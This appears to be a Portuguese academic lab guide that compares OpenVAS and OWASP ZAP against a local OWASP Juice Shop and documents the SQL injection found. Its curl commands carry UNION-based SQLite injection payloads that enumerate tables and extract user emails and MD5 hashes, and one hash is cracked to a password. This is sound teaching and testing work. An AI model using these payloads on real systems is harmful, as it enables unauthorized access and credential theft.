



# Laboratório de DAST com OWASP ZAP contra OWASP Juice Shop

**Tema:** comparação prática entre scanner de infraestrutura e scanner DAST em aplicação web vulnerável.  
**Ferramentas centrais:** Docker, OWASP Juice Shop, OWASP ZAP, curl e, opcionalmente, OpenVAS/Greenbone.  
**Finalidade:** documentação acadêmica para reprodução controlada dos testes realizados em laboratório.

---

> [!CAUTION]
> **AVISO DE ÉTICA, ESCOPO E RESPONSABILIDADE**
>
> Este conteúdo foi elaborado exclusivamente para fins educacionais, laboratoriais e de pesquisa em ambiente controlado.
>
> A execução dos procedimentos aqui descritos deve ocorrer apenas contra aplicações vulneráveis por desenho, em ambiente próprio, isolado e formalmente autorizado, como o OWASP Juice Shop.
>
> É expressamente vedada a reprodução destes testes contra sistemas de terceiros, redes corporativas, ambientes de produção ou quaisquer ativos sem autorização prévia e inequívoca.
>
> O uso indevido deste material pode gerar responsabilização técnica, acadêmica, civil e criminal.

> [!IMPORTANT]
> **DISCLAIMER DE ESTABILIDADE E SUPORTE**
>
> Este laboratório foi testado e validado pelo instrutor. Todavia, o ecossistema de TI evolui rapidamente, especialmente quanto a versões de imagens Docker, kernels, navegadores, drivers, virtualização e redes locais.
>
> Assim, ajustes pontuais podem ser necessários conforme o ambiente do aluno.

---

## 1. Objetivo do laboratório

Este laboratório tem por finalidade demonstrar, de forma técnica, didática e reprodutível, a diferença entre:

1. **Scanner de infraestrutura**, voltado à identificação de portas, serviços, versões, CVEs, banners, problemas de TLS/SSL e falhas de configuração.
2. **Scanner DAST**, voltado à análise dinâmica da aplicação web, navegação, interação com parâmetros HTTP, descoberta de endpoints, testes de entrada e validação de vulnerabilidades em camada de aplicação.

No experimento realizado, o OpenVAS/Greenbone apresentou retorno limitado contra o OWASP Juice Shop, enquanto o OWASP ZAP identificou alertas próprios de aplicação web, com destaque para **SQL Injection** no endpoint de busca de produtos.

---

## 2. Pré-requisitos

Para reprodução adequada do laboratório, recomenda-se o seguinte ambiente mínimo:

| Item | Requisito recomendado |
|---|---|
| Sistema operacional | Linux, macOS ou Windows com WSL2 |
| Docker | Instalado e funcional |
| Memória RAM | 4 GB livres, recomendado 8 GB |
| Navegador | Firefox ou Chromium |
| Rede | Ambiente isolado, NAT, host-only ou rede segregada |
| Permissão | Execução exclusivamente em ambiente próprio/autorizado |
| Conhecimento prévio | Noções básicas de HTTP, Docker, vulnerabilidades web e análise de logs |

---

## 3. Ambiente do laboratório

### 3.1. Componentes

| Componente | Função no laboratório |
|---|---|
| Host Linux/macOS/WSL2 | Base para execução dos containers e testes via shell |
| Docker | Motor de containers utilizado para subir o alvo e a ferramenta DAST |
| OWASP Juice Shop | Aplicação vulnerável por desenho, utilizada como alvo controlado |
| OWASP ZAP | Scanner DAST utilizado para spidering, active scan e análise de alertas |
| curl | Ferramenta de linha de comando para validação manual das evidências |
| OpenVAS/Greenbone | Scanner de infraestrutura utilizado como comparação metodológica |

### 3.2. Topologia lógica

```text
[Analista]
    |
    | Browser / ZAP GUI / curl
    v
[Host com Docker]
    |
    |-- Rede Docker: lab-dast
    |      |
    |      |-- Container OWASP Juice Shop -> porta 3000/tcp
    |      |
    |      |-- Container OWASP ZAP -> porta 8080/tcp, interface WebSwing
    |
    |-- Opcional: OpenVAS/Greenbone -> scanner de infraestrutura
```

### 3.3. Endereços utilizados no laboratório

Dentro da rede Docker `lab-dast`, recomenda-se utilizar o nome do container como referência principal:

```text
http://juice-shop:3000
```

Quando a aplicação estiver publicada na porta do host, também é possível acessar:

```text
http://127.0.0.1:3000
```

ou:

```text
http://<IP_DO_HOST>:3000
```

> [!NOTE]
> Evite depender diretamente do IP interno do container, como `172.17.0.2`, pois esse endereço pode variar conforme a rede Docker, reinicializações e ambiente de execução.

Para descobrir o IP interno do container, quando necessário:

```bash
docker ps
docker inspect -f '{{range .NetworkSettings.Networks}}{{.IPAddress}}{{end}}' juice-shop
```

---

## 4. Preparação do ambiente

### 4.1. Criação de rede isolada para o laboratório

Recomenda-se o uso de uma rede Docker própria, a fim de manter o laboratório segregado e previsível:

```bash
docker network create lab-dast
```

### 4.2. Subida do OWASP Juice Shop

```bash
docker run -d \
  --name juice-shop \
  --network lab-dast \
  -p 3000:3000 \
  bkimminich/juice-shop
```

Validação inicial:

```bash
docker ps
curl -I http://127.0.0.1:3000
```

Resultado esperado:

```text
HTTP/1.1 200 OK
```

### 4.3. Subida do OWASP ZAP com interface WebSwing

Para uso em laboratório local, pode ser utilizada a imagem com interface gráfica via navegador:

```bash
docker run -u zap -d \
  --name zap \
  --network lab-dast \
  -p 8080:8080 \
  -p 8443:8443 \
  ghcr.io/zaproxy/zaproxy:full \
  zap-webswing.sh --webswing-disable-auth
```

Acesso à interface:

```text
http://127.0.0.1:8080/zap/
```

> [!WARNING]
> O uso de `--webswing-disable-auth` é aceitável apenas em laboratório isolado. Em ambiente compartilhado, a interface do ZAP deve ser protegida.

---

## 5. Comparação metodológica: OpenVAS x OWASP ZAP

### 5.1. Resultado esperado do OpenVAS/Greenbone

O OpenVAS/Greenbone é vocacionado à análise de infraestrutura. Seu foco natural recai sobre:

| Dimensão | Exemplos de achados |
|---|---|
| Portas expostas | Serviços TCP/UDP abertos |
| Banners | Identificação de serviços e versões |
| CVEs | Vulnerabilidades conhecidas em serviços expostos |
| TLS/SSL | Protocolos fracos, certificados e cifras inseguras |
| Configuração | Serviços mal configurados ou desnecessariamente expostos |
| Sistema operacional | Identificação de superfície de ataque do host |

No caso do OWASP Juice Shop, as vulnerabilidades mais relevantes estão na lógica da aplicação e nos endpoints de API. Por isso, o retorno do OpenVAS tende a ser inferior ao esperado quando o alvo é uma aplicação SPA moderna, baseada em JavaScript/Angular/Node.

### 5.2. Resultado esperado do OWASP ZAP

O OWASP ZAP, por ser uma ferramenta DAST, atua de maneira mais aderente ao problema analisado.

Ele permite:

| Capacidade | Finalidade |
|---|---|
| Spider tradicional | Descoberta de recursos estáticos e links |
| AJAX Spider | Navegação dinâmica em aplicações modernas |
| Identificação de parâmetros | Mapeamento de entradas HTTP |
| Active Scan | Envio controlado de payloads contra endpoints identificados |
| Alertas de segurança | Registro de achados como SQL Injection, XSS e cabeçalhos ausentes |
| Evidências técnicas | Apoio à validação manual e ao relatório final |

---

## 6. Configuração do scan no OWASP ZAP

### 6.1. Quick Start — Automated Scan

Na tela inicial do ZAP, preencher:

| Campo | Valor utilizado |
|---|---|
| URL to attack | `http://juice-shop:3000` |
| Alternativa via host | `http://127.0.0.1:3000` |
| Scan Policy | `Dev Standard`, `Default Policy` ou política equivalente de laboratório |
| Use traditional spider | Marcado |
| Use ajax spider | `If Modern` ou habilitado |
| Browser | Firefox |

Evidência visual do setup:



### 6.2. Execução

Após clicar em **Attack**, o ZAP realiza as seguintes etapas:

1. spider tradicional para descoberta de recursos estáticos;
2. AJAX Spider para navegação em aplicação moderna;
3. active scan contra os endpoints e parâmetros identificados;
4. consolidação dos alertas na aba **Alerts**;
5. geração de insumos para validação manual e relatório técnico.

---

## 7. Matriz de evidências

| Evidência | Descrição | Finalidade |
|---|---|---|
| Evidência 01 | Tela de configuração do Automated Scan | Comprovar o escopo e os parâmetros do scan |
| Evidência 02 | Alerta de SQL Injection no ZAP | Registrar o achado automatizado |
| Evidência 03 | Retorno HTTP 500 em teste controlado | Demonstrar comportamento anômalo da aplicação |
| Evidência 04 | Enumeração de metadados no SQLite em laboratório | Demonstrar impacto técnico controlado |
| Evidência 05 | Resultado de hash MD5 fictício em base pública | Demonstrar risco de hash fraco em contexto acadêmico |
| Evidência 06 | Lista de alertas complementares do ZAP | Compor visão de hardening e superfície de exposição |

---

## 8. Vulnerabilidade identificada: SQL Injection

### 8.1. Alerta apresentado pelo ZAP

O ZAP identificou alerta de **SQL Injection** no seguinte recurso:

```text
URL: http://juice-shop:3000/rest/products/search?q=%27%28
Parâmetro: q
Risco: High
Confiança: Low
CWE: 89
WASC: 19
Evidência: HTTP/1.1 500 Internal Server Error
Fonte: Active Scan
Input Vector: URL Query String
```

Evidência visual do alerta:



### 8.2. Interpretação técnica

O alerta indica que o parâmetro `q`, utilizado na busca de produtos, aceitou entrada malformada e produziu comportamento anômalo no backend.

O retorno de erro SQL no servidor sugere ausência de tratamento adequado da entrada, com possibilidade de concatenação insegura de dados recebidos do usuário na consulta SQL.

> [!IMPORTANT]
> Nesta etapa, o alerta automatizado não deve ser aceito de forma acrítica. O objetivo didático é demonstrar que todo achado de scanner deve ser validado manualmente, documentado e contextualizado.

---

## 9. Validação manual com curl

> [!CAUTION]
> Os testes desta seção devem ser executados exclusivamente contra a instância local do OWASP Juice Shop criada neste laboratório. A finalidade é demonstrar, de forma controlada, o nexo entre vulnerabilidade, evidência técnica e mitigação defensiva.

### 9.1. Teste inicial com aspa simples

Comando:

```bash
curl -i "http://127.0.0.1:3000/rest/products/search?q='"
```

Resultado observado:

```text
HTTP/1.1 200 OK
{"status":"success","data":[]}
```

Interpretação:

A aspa simples isolada não foi suficiente para produzir erro no teste manual inicial, embora o ZAP tenha identificado comportamento suspeito em variações de payload.

### 9.2. Forçando erro de sintaxe SQL

Comando:

```bash
curl -i -G "http://127.0.0.1:3000/rest/products/search" \
  --data-urlencode "q=')));"
```

Resultado observado:

```text
HTTP/1.1 500 Internal Server Error
Error: SQLITE_ERROR: near ")": syntax error
OWASP Juice Shop (Express ^4.22.1)
```

Interpretação:

| Elemento observado | Significado técnico |
|---|---|
| HTTP 500 | A aplicação apresentou erro interno |
| `SQLITE_ERROR` | Houve exposição de detalhe do banco de dados |
| `Express` | Houve exposição de tecnologia backend |
| Erro associado ao parâmetro `q` | Reforça a hipótese de tratamento inadequado da entrada |

---

## 10. Prova de conceito controlada: Union-Based SQL Injection

> [!WARNING]
> Esta seção possui finalidade estritamente acadêmica e deve permanecer limitada ao OWASP Juice Shop em ambiente local. Não utilize esses procedimentos em sistemas reais ou de terceiros.

### 10.1. Enumeração de tabelas via `sqlite_master`

No SQLite, a enumeração de tabelas não é realizada por `SHOW TABLES`, como no MySQL, mas por consulta à tabela de metadados `sqlite_master`.

Comando utilizado:

```bash
curl -i -G "http://127.0.0.1:3000/rest/products/search" \
  --data-urlencode "q=')) UNION SELECT name, '2', '3', '4', '5', '6', '7', '8', '9' FROM sqlite_master WHERE type='table'-- "
```

Resultado observado:

```text
HTTP/1.1 200 OK
```

Tabelas identificadas no retorno JSON:

| Tabela | Observação acadêmica |
|---|---|
| Users | Cadastro de usuários |
| Products | Produtos da loja |
| Baskets | Cestas/carrinhos |
| BasketItems | Itens de carrinho |
| Cards | Cartões fictícios da aplicação de teste |
| Wallets | Carteiras/saldos fictícios |
| SecurityAnswers | Respostas de segurança |
| SecurityQuestions | Perguntas de segurança |
| Feedbacks | Feedbacks da aplicação |
| Challenges | Desafios internos do Juice Shop |
| sqlite_sequence | Controle interno do SQLite |

### 10.2. Exfiltração acadêmica de dados da tabela `Users`

Comando utilizado em laboratório:

```bash
curl -i -G "http://127.0.0.1:3000/rest/products/search" \
  --data-urlencode "q=')) UNION SELECT email, password, '3', '4', '5', '6', '7', '8', '9' FROM Users-- "
```

Resultado observado:

```text
HTTP/1.1 200 OK
```

Exemplos de registros retornados:

| Campo projetado no JSON | Valor observado |
|---|---|
| id | `admin@juice-sh.op` |
| name | `0192023a7bbd73250516f069df18b500` |
| id | `jim@juice-sh.op` |
| name | `e541ca7ecf72b8d1286474fc613e5e45` |
| id | `bender@juice-sh.op` |
| name | `0c36e517e3fa95aabf1bbffc6744a4ef` |

Interpretação:

A consulta manipulada permitiu projetar valores da tabela `Users` dentro do JSON originalmente destinado à busca de produtos. No contexto acadêmico, isso caracteriza demonstração controlada de impacto por SQL Injection.

### 10.3. Validação acadêmica de hash MD5 com CrackStation

Após a extração controlada de registros da tabela `Users`, foi selecionado o hash associado ao usuário administrativo fictício do laboratório para demonstrar o risco decorrente do uso de algoritmos de hash fracos, sem salt e sem fator de custo adequado.

> [!IMPORTANT]
> Esta etapa foi realizada exclusivamente contra dados fictícios do OWASP Juice Shop, em ambiente controlado de ensino. Não se deve submeter hashes reais, corporativos, de clientes ou de terceiros em serviços públicos de consulta.

Serviço utilizado para lookup acadêmico:

```text
https://crackstation.net/
```

Hash submetido no laboratório:

```text
0192023a7bbd73250516f069df18b500
```

Resultado observado:

| Campo | Valor |
|---|---|
| Hash | `0192023a7bbd73250516f069df18b500` |
| Tipo identificado | `md5` |
| Resultado | `admin123` |

Evidência visual:



Interpretação técnica:

O resultado demonstra que o hash extraído em laboratório estava presente em base pré-computada de lookup, permitindo a recuperação imediata da senha correspondente. Em termos defensivos, a evidência reforça que MD5 não deve ser empregado para armazenamento de senhas, especialmente sem salt individual, sem pepper e sem algoritmo de derivação resistente a força bruta.

### 10.4. Encadeamento do impacto observado

```text
SQL Injection no parâmetro q
        ↓
Enumeração de tabelas via sqlite_master
        ↓
Identificação da tabela Users
        ↓
Extração controlada de e-mails e hashes fictícios
        ↓
Lookup do hash MD5 em base pública
        ↓
Recuperação da senha fraca do usuário administrativo fictício
```

Do ponto de vista acadêmico, a prova não se limita à existência abstrata de SQL Injection. Ela evidencia impacto concreto sobre confidencialidade, autenticação e governança de credenciais.

---

## 11. Achados complementares do OWASP ZAP

Além da SQL Injection, o ZAP apresentou alertas típicos de hardening de aplicação, tais como:

| Achado | Natureza | Impacto resumido |
|---|---|---|
| Content Security Policy Header Not Set | Configuração HTTP | Aumenta exposição a ataques de injeção de conteúdo e XSS |
| Missing Anti-clickjacking Header | Configuração HTTP | Pode permitir ataques de clickjacking |
| Cross-Domain Misconfiguration | Configuração HTTP/CORS | Pode ampliar superfície de interação indevida entre origens |
| Session ID in URL Rewrite | Sessão | Pode expor identificadores em histórico, logs e referers |
| Private IP Disclosure | Exposição de informação | Pode revelar detalhes internos do ambiente |
| X-Content-Type-Options Header Missing | Configuração HTTP | Pode permitir interpretação indevida de conteúdo |
| Modern Web Application | Informativo | Indica necessidade de spider dinâmico/AJAX |

---

## 12. Lições técnicas aprendidas

### 12.1. Sobre scanners de infraestrutura

Scanners como OpenVAS/Greenbone são essenciais para higiene de infraestrutura, porém não substituem testes DAST. Eles podem identificar falhas em serviços, versões e configurações, mas não necessariamente compreendem fluxos de aplicação, JavaScript, parâmetros dinâmicos e lógica de negócio.

### 12.2. Sobre scanners DAST

O OWASP ZAP mostrou-se mais adequado para o Juice Shop porque conseguiu interagir com a camada HTTP, descobrir o endpoint de busca e testar o parâmetro `q` com payloads voltados à aplicação.

### 12.3. Sobre validação manual

O alerta automatizado deve ser confirmado manualmente. O uso de `curl` permitiu:

| Validação | Resultado acadêmico |
|---|---|
| Reproduzir erro HTTP 500 | Confirmação de comportamento anômalo |
| Confirmar exposição de erro SQL | Evidência de tratamento inadequado de erro |
| Validar possibilidade de `UNION SELECT` | Demonstração de impacto |
| Enumerar tabelas | Confirmação de acesso a metadados |
| Demonstrar acesso indevido a dados fictícios | Evidência de risco à confidencialidade |

---

## 13. Recomendações de mitigação

### 13.1. Correções na aplicação

1. Substituir concatenação de strings SQL por **queries parametrizadas**.
2. Utilizar corretamente ORM ou query builder com binding de parâmetros.
3. Validar e normalizar entradas recebidas por parâmetros de busca.
4. Aplicar testes unitários e de integração para entradas maliciosas.
5. Impedir que erros técnicos sejam retornados ao cliente.
6. Não armazenar senhas com MD5, SHA-1 ou hashes rápidos equivalentes.
7. Utilizar algoritmos apropriados para senhas, como Argon2id, bcrypt ou scrypt, com salt individual e parâmetros de custo adequados.
8. Implementar tratamento centralizado de exceções para evitar vazamento de stack trace, tecnologia backend e detalhes de banco de dados.

### 13.2. Correções na infraestrutura

1. Habilitar WAF em modo monitoramento e, depois, bloqueio controlado.
2. Aplicar cabeçalhos de segurança: CSP, HSTS, X-Frame-Options ou `frame-ancestors`, X-Content-Type-Options.
3. Restringir exposição de serviços administrativos.
4. Centralizar logs de aplicação, proxy e containers.
5. Criar alertas para padrões de ataque como `UNION SELECT`, aspas anômalas e erros SQL recorrentes.
6. Garantir que interfaces administrativas do laboratório, como o ZAP WebSwing, não fiquem expostas em redes não confiáveis.

### 13.3. Correções operacionais

1. Integrar DAST ao pipeline de CI/CD em ambiente de homologação.
2. Registrar evidências de scan em relatórios versionados.
3. Manter política de autorização formal para testes.
4. Diferenciar claramente teste de infraestrutura, teste DAST e validação manual.
5. Revisar falsos positivos e falsos negativos antes de concluir o relatório.
6. Documentar escopo, horário, ambiente, ferramenta, versão e responsável técnico pelo teste.

---

## 14. Roteiro resumido para reprodução

### 14.1. Infraestrutura do laboratório

```bash
# 1. Criar rede de laboratório
docker network create lab-dast

# 2. Subir Juice Shop
docker run -d \
  --name juice-shop \
  --network lab-dast \
  -p 3000:3000 \
  bkimminich/juice-shop

# 3. Subir OWASP ZAP com interface WebSwing
docker run -u zap -d \
  --name zap \
  --network lab-dast \
  -p 8080:8080 \
  -p 8443:8443 \
  ghcr.io/zaproxy/zaproxy:full \
  zap-webswing.sh --webswing-disable-auth
```

### 14.2. Acesso às ferramentas

```text
Juice Shop no host:
http://127.0.0.1:3000

ZAP WebSwing:
http://127.0.0.1:8080/zap/

Juice Shop dentro da rede Docker:
http://juice-shop:3000
```

### 14.3. Configuração do Automated Scan

```text
URL: http://juice-shop:3000
Spider tradicional: habilitado
AJAX Spider: If Modern ou habilitado
Browser: Firefox
Policy: Dev Standard, Default Policy ou equivalente de laboratório
```

### 14.4. Validação manual em ambiente controlado

```bash
# Validar resposta da aplicação pelo host
curl -I http://127.0.0.1:3000

# Validar comportamento anômalo associado ao parâmetro q
curl -i -G "http://127.0.0.1:3000/rest/products/search" \
  --data-urlencode "q=')));"
```

### 14.5. Enumeração controlada em SQLite

```bash
curl -i -G "http://127.0.0.1:3000/rest/products/search" \
  --data-urlencode "q=')) UNION SELECT name, '2', '3', '4', '5', '6', '7', '8', '9' FROM sqlite_master WHERE type='table'-- "
```

---

## 15. Modelo mínimo de relatório do aluno

O relatório final deve conter, no mínimo:

| Seção | Conteúdo esperado |
|---|---|
| Identificação | Nome do aluno, turma, data e ambiente utilizado |
| Escopo | Alvo autorizado, endereço, ferramenta e versão |
| Metodologia | Descrição do scan, spider, active scan e validação manual |
| Achados | Lista de alertas com risco, confiança, evidência e interpretação |
| Evidências | Prints, comandos, saídas relevantes e observações |
| Impacto | Consequência técnica do achado no ambiente controlado |
| Mitigação | Recomendações corretivas e preventivas |
| Conclusão | Síntese técnica do aprendizado e limitações do teste |

---

## 16. Critérios de avaliação sugeridos

| Critério | Peso sugerido |
|---|---|
| Montagem correta do ambiente | 20% |
| Execução adequada do ZAP | 20% |
| Interpretação técnica dos alertas | 20% |
| Validação manual controlada | 20% |
| Qualidade do relatório e evidências | 20% |

---

## 17. Conclusão

O laboratório demonstrou que scanners de infraestrutura e ferramentas DAST possuem finalidades complementares, mas não equivalentes.

O OpenVAS/Greenbone contribui para a análise de superfície de infraestrutura, enquanto o OWASP ZAP se mostra mais aderente à inspeção dinâmica de aplicações web modernas. No caso do OWASP Juice Shop, o ZAP permitiu identificar, validar e contextualizar uma vulnerabilidade de SQL Injection, inclusive com demonstração controlada de impacto sobre dados fictícios.

Em sede acadêmica, a principal lição não é a mera execução de uma ferramenta, mas a construção de um raciocínio técnico completo: delimitação de escopo, execução controlada, coleta de evidências, validação manual, interpretação do impacto e proposição de mitigação defensiva.

---

## 18. Limpeza do ambiente

Ao final do laboratório, recomenda-se remover os containers e a rede criada:

```bash
docker rm -f zap juice-shop
docker network rm lab-dast
```
